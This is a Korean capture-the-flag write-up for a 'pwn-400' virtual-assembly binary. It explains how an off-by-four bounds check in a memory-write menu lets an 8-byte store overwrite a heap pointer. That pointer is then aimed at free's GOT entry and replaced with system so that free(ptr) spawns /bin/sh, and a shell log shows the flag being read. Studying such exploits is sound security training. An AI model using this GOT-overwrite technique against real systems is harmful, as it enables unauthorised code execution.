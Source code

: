 ## solve

#### menu
```
[1] mov dword register, register
[2] mov dword memory, register
[3] mov dword register, memory
[4] mov dword register, $data
[5] mov qword register, register
[6] mov qword memory, register
[7] mov qword register, memory
[8] mov qword register, $data
[9] sub register, register
[10] sub register, memory
[11] sub register, $data
[12] add register, register
[13] add register, memory
[14] add register, $data
[15] push $string
[16] push dword $data
[17] pop $string
[18] pop dword $data
[19] int 0x80
[20] Exit..
```
</br>

* 8번 메뉴를 통해 rdx에 값을 저장할 수 있다. (그냥 8바이트를 저장할 수 있다.)

* 6번 메뉴에서 레지스터에 있는 값을 메모리에 저장한다. 리틀엔디안 방식으로 저장이된다.

</br>

## Vulnerabilities
```
if ( v4 < (unsigned int)&unk_804C0E0 || v4 > (unsigned int)&unk_804C4DC )
```
* 6번 메뉴에서 범위를 검사하는데 0x804C4DC를 넘으면 안된다.</br>

```
buf = malloc(0x100u);
ptr = malloc(0x400u);
dword_804C4E0 = buf;
dword_804C4E4 = ptr;
```

* 바로 뒤의 804C4e0에는 buf의 주소인 힙의 주소가 저장되어 있는데, 만약 6번 메뉴에서 memory의 주소가 804C4DC로 지정을 하게되면 , 리틀엔디안 방식으로 8바이트가 저장되기 때문에 804C4e0를 overwrite 할 수 있다.

* 따라서 804C4e0에 free함수의 got주소를 overwrite하고 난 뒤, modify메뉴를 이용해서 buf의 값은 system함수의 주소로, ptr의 값은 '/bin/sh\x00' 으로 수정한다. 그리고 종료를 하게 되면 free(ptr)이 호출되고, system('/bin/sh\x00') 이 호출된다.

</br>

## Result
```
~/machome/ctf/doubles_ctf/pwn-400(master*) » python exploit.py k                                     stitch@certis
 OK..
[ Virtual Assembly System ]
[1] Show Examples
[2] Generate Assembly
[3] Modify Name and Description
[4] Help
[5] Exit
-> $ 5
Bye Bye~~
\x00$ id
uid=1002(prob02) gid=1002(prob02) groups=1002(prob02)
$ ls /home/prob02
asm
flag
$ cat /home/prob02/flag
flag{4sm_1s_s0_h4rd}
$
```
